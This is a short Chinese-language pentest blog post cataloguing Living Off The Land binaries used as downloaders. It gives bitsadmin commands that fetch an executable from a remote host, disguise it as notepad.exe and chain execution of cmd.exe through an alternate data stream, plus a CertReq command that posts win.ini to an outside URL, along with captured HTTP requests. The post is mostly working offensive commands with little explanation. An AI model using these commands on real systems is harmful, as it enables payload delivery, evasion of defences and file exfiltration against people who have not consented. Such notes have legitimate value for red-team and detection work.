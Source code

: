 ```yaml
---
layout:     post
title:      Living Off The Land Binaries and Scripts(and also Libraries)
date:       2020-11-26 01:47:05 +0800
categories: Security
tags:       Download Pentest
author:     SteveDevin
mathjax:    true
---
```

* content
{:toc}

最近做白利用改进专项, 记录一下



## Downloader

### 1. Bitsadmin.exe

```powershell
bitsadmin /create myfile
bitsadmin /addfile myfile http://192.168.220.125/white_process/call_calc.exe c:\data\playfolder\notepad.exe
bitsadmin /SetNotifyCmdLine myfile c:\ADS\1.txt:cmd.exe NULL
bitsadmin /RESUME myfile
```

或参考 `Micro8` 的方法

```powershell
bitsadmin /rawreturn /transfer down "http://192.168.1.115/robots.txt" E:\PDF\robots.txt
```

[***pcap***]({{site.url}}/assets/Living_Off_The_Land/pcap/Bitsadmin.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
If-Unmodified-Since: Wed, 25 Nov 2020 16:46:48 GMT
Range: bytes=0-71744
User-Agent: Microsoft BITS/7.8
Host: 192.168.220.125
```

### 2. CertReq.exe

```powershell
CertReq -Post -config https://example.org/ c:\windows\win.ini
```

[***pcap***]({{site.url}}/assets/Living_Off_The_Land/pcap/CertReq.pcap)
